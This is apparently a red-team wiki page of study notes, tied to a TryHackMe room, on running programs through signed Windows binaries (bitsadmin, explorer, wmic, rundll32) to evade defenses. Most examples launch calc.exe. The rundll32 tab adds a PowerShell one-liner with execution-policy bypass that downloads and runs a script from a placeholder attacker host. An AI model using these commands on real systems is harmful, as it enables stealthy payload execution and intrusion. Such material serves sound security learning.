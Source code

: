 # File Operations

## Theory

Here, we will show various ways of executing a binary within the operating system. The typical case of executing a binary involves various known methods such as using the command line cmd.exe or from the desktop. However, other ways exist to achieve payload execution by abusing other system binaries, of which one of the reasons is to hide or harden the payload's process. . This techniques are covered by the [LOLBAS project](https://lolbas-project.github.io)
Based on the MITRE ATT&CK framework, this technique is called **Signed Binary Proxy Execution** or **Indirect Command Execution**.

## Practice

## Practice

{% tabs %}
{% tab title="BITSAdmin.exe" %}
The bitsadmin tool is a system administrator utility that can be used to create, download or upload Background Intelligent Transfer Service (BITS) jobs and check their progress. [BITS](https://learn.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) is a low-bandwidth and asynchronous method to download and upload files from HTTP webservers and SMB servers. Additional information about the bitsadmin tool can be found at [Microsoft Docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin).

```bash
#Execute a file
#One-liner that creates a bitsadmin job named 1, add cmd.exe to the job, configure the job to run the target command, then resume and complete the job. 
bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset
```
{% endtab %}
{% tab title="explorer.exe" %}
File Explorer is a file manager and system component for Windows. People found that using the file explorer binary can execute other .exe files. This technique is called Indirect Command Execution, where the explorer.exe tool can be used and abused to launch malicious scripts or executables from a trusted parent process.

```bash
#Create a child process of explorer.exe
explorer.exe /root,"C:\Windows\System32\calc.exe"
```
{% endtab %}
{% tab title="wmic.exe" %}
Windows Management Instrumentation (WMIC) is a Windows command-line utility that manages Windows components. People found that WMIC is also used to execute binaries for evading defensive measures. 

```bash
#Execute calc.exe
wmic.exe process call create calc
```
The MITRE ATT&CK framework refers to this technique as [Signed Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
{% endtab %}


{% tab title="rundll32.exe" %}
Rundll32 is a Microsoft built-in tool that loads and runs Dynamic Link Library DLL files within the operating system. A red team can abuse and leverage rundll32.exe to run arbitrary payloads and execute JavaScript and PowerShell scripts. 

```bash
#Execute Binary - calc.exe
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

#Execute powershell scripts
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```
The MITRE ATT&CK framework refers to this technique as [Signed Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
Note that other tools can be used for file executions. We suggest visiting the [LOLBAS](https://lolbas-project.github.io/)[ ](https://lolbas-project.github.io/)project to check them out.
{% endhint %}



## References

{% embed url="https://tryhackme.com/room/livingofftheland" %}
{% embed url="https://lolbas-project.github.io/#" %}